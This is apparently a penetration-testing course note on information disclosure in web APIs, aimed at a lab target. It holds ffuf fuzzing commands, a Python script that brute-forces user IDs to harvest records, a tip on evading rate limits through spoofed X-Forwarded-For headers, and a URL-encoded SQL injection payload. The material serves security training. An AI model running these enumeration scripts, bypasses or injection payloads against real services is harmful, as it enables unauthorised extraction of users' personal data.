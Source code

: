 # Information Disclosure (with a twist of SQLi)
Security-related inefficiencies or misconfigurations in a web service or API can result in information disclosure.

When assessing a web service or API for information disclosure, we should spend considerable time on fuzzing.
## Information Disclosure through Fuzzing
Suppose we are assessing an API residing in `http://<TARGET IP>:3003`.

Maybe there is a parameter that will reveal the API's functionality. Let us perform parameter fuzzing using _ffuf_ and the [burp-parameter-names.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt) list, as follows:
```shell
ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3003/?FUZZ=test_value' -fs 19
```
- We notice a similar response size in every request, so we can use `-fs` to filter out the response size

It looks like _id_ is a valid parameter. Let us check the response when specifying _id_ as a parameter and a test value.
```shell
curl http://<TARGET IP>:3003/?id=1
```
- We get the id, username, and position of user with `id=1`

We can create a Python script that could automate retrieving all information that the API returns (save it as `brute_api.py`):
```python
import requests, sys

def brute():
    try:
        value = range(10000)
        for val in value:
            url = sys.argv[1]
            r = requests.get(url + '/?id='+str(val))
            if "position" in r.text:
                print("Number found!", val)
                print(r.text)
    except IndexError:
        print("Enter a URL E.g.: http://<TARGET IP>:3003/")

brute()
```
- We import two modules _requests_ and _sys_. 
	- _requests_ allows us to make HTTP requests (GET, POST, etc.),
	- _sys_ allows us to parse system arguments.
- We define a function called _brute_, and then we define a variable called _value_ which has a range of _10000_. _try_ and _except_ help in exception handling.
- _url = sys.argv[1]_ receives the first argument.
- _r = requests.get(url + '/?id='+str(val))_ creates a response object called _r_ which will allow us to get the response of our GET request. We are just appending _/?id=_ to our request and then _val_ follows, which will have a value in the specified range.
- _if "position" in r.text:_ looks for the _position_ string in the response. If we enter a valid ID, it will return the position and other information. If we don't, it will return _[]_.

We can now run this script:
```shell
python3 brute_api.py http://<TARGET IP>:3003
```

> **TIP**: If there is a rate limit in place, you can always try to bypass it through headers such as X-Forwarded-For, X-Forwarded-IP, etc., or use proxies.
## Information Disclosure through SQL Injection
We can also submit classic SQLi payloads to test for SQLi.

At the end of our curl request, we can add a payload such as `'OR 1=1' OR 1` and URL encode:
```
curl http://<TARGET IP>:3003/?id=1%27%4f%52%20%31%3d%31%27%20%4f%52%20%31%0a
```

We can use the [[/Offensive Security Techniques/Web Exploitation Techniques/SQL Injection/]] page to test for more SQLi in real scenarios.